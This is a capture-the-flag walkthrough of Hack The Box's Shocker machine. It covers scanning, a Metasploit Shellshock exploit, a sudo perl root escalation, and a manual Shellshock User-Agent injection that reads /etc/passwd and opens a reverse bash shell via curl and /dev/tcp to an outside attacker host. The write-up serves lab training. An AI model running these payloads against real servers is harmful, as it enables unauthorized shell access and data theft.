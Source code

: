 ```yaml
---
"title": "Hack The Box - Shocker"
"date": 2019-12-03
"tags": ["linux", "easy", "sudo", "shellshock"]
"keywords": ["linux", "easy", "sudo", "shellshock"]
"categories": "HackTheBox OSCP-Like"
"author": "Ghostbyt3"
"description": "We are going to pwn Shocker from Hack The Box."
"featured_image": "/img/htb-shocker/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/108](https://www.hackthebox.eu/home/machines/profile/108)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage[br/](br/)
![Untitled](/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![Untitled](/img/htb-shocker/3.png)[br/](br/)
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![Untitled](/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![Untitled](/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![Untitled](/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![Untitled](/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0[&1 2](&1 2)&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![Untitled](/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.
